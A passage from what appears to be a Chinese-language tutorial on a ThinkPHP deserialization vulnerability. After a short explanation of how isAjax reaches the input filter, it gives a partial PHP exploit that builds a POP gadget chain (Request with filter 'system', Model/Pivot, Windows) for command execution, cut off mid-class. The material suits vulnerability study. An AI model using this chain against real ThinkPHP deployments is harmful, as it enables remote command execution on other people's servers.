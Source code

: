 寻找当前类中能够利用的函数，比如 isAjax ，其中调用了param函数，那么肯定就能触发input函数了，可以回顾下tp 5.0/1.x的命令执行漏洞！

<img src=".\图片\1586953-20200407002745375-2079642464.png" alt="img"  />

## 构建EXP

```php
<?php

namespace think;
class Request{
    protected $hook = [];
    protected $filter = "system";
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'huha'];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        # append键必须存在，并且与$this->data相同
        $this->append = ["huha"=>[]];
        $this->data = ["huha"=>new Request()];
    }
}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}

namespace think\process\pipes;
use think\model\Pivot;

class Windows
{
    private $files = [];
```
